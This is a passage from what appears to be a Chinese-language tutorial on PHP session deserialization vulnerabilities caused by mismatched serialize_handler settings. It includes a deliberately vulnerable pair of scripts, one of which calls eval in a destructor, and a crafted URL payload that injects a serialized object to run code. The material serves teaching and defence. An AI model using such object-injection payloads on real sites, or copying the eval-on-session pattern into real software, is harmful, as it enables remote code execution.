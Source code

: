 三种处理器的存储格式差异，就会造成在session序列化和反序列化处理器设置不当时的安全隐患。

如果在PHP在反序列化存储的$_SESSION数据时使用的引擎和序列化使用的引擎不一样，会导致数据无法正确第反序列化。通过精心构造的数据包，就可以绕过程序的验证或者是执行一些系统的方法。例如:

```php
$_SESSION['ryat'] = '|O:11:"PeopleClass":0:{}';
```

上述的$_SESSION的数据使用php_serialize，那么最后的存储的内容就是`a:1:{s:6:"spoock";s:24:"|O:11:"PeopleClass":0:{}";}`

但是我们在进行读取的时候，选择的是php，那么最后读取的内容是:

```php
array (size=1)
 'a:1:{s:6:"spoock";s:24:"' => 
 object(__PHP_Incomplete_Class)[1]
 public '__PHP_Incomplete_Class_Name' => string 'PeopleClass' (length=11)
```

这是因为当使用php引擎的时候，php引擎会以|作为作为key和value的分隔符，那么就会将`a:1:{s:6:"spoock";s:24:"`作为SESSION的key，将`O:11:"PeopleClass":0:{}`作为value，然后进行反序列化，最后就会得到PeopleClas这个类。



### 实际利用

#### 代码中可控session

存在s1.php和us2.php，2个文件所使用的SESSION的引擎不一样，就形成了一个漏洞、
s1.php，使用php_serialize来处理session

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
```

**us2.php,使用php来处理session**

```php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon {
 var $hi;
 function __construct(){
 $this->hi = 'phpinfo();';
 }
 
 function __destruct() {
  eval($this->hi);
 }
}
```

**当访问s1.php时，提交如下的数据：**

localhost/s1.php?a=|O:5:"lemon":1:{s:2:"hi";s:14:"echo "spoock";";}
